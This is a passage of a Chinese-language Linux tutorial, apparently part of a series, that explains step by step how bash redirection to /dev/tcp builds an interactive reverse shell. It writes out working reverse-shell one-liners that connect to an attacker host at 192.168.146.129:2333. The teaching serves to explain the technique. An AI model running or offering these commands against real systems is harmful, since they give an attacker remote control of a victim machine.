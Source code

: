   **3.交互重定向**

  **注意：**
   下面的内容涉及到比较复杂的重定向和文件描述符的知识，如果理解不够深入建议看完我的上一篇文章以后再来继续阅读：

  **文章链接：**
   [Linux反弹shell（一）文件描述符与重定向](https://xz.aliyun.com/t/2548)

  为了实现交互，我们需要把受害者交互式shell的输出重定向到攻击机上
   在受害者机器上输入

  ```
  bash -i > /dev/tcp/192.168.146.129/2333
  ```

  示意图：

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf42bf0e-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf42bf0e-9c80-1.png)

  如下图所示，任何在受害者机器上执行的指令都不会直接回显了，而是在攻击者机器上回显。

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf500092-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf500092-9c80-1.png)

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf5c2610-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf5c2610-9c80-1.png)

  但是这里有一个问题，攻击者没有能够实现对受害者的控制，攻击者执行的命令没法在受害者电脑上执行。

  于是我们似乎还需要一条这样的指令

  ```
  bash -i < /dev/tcp/192.168.146.129/2333
  ```

  示意图：

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf6dc0aa-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf6dc0aa-9c80-1.png)

  这条指令的意思是将攻击者输入的命令输入给受害者的bash，自然就能执行了

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf7850f6-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf7850f6-9c80-1.png)

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf863ae0-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf863ae0-9c80-1.png)

  现在我们需要将两条指令结合起来（如果这条指令看不懂可以去看一下我上面提供的文章的链接再回来看这条指令）：

  ```
  bash -i > /dev/tcp/192.168.146.129/2333 0>&1
  ```

  示意图：

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf98d0ec-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf98d0ec-9c80-1.png)

  **由这张示意图可以很清楚地看到，输入0是由/dev/tcp/192.168.146.129/2333  输入的，也就是攻击机的输入，命令执行的结果1，会输出到/dev/tcp/192.168.156.129/2333上，这就形成了一个回路，实现了我们远程交互式shell  的功能**
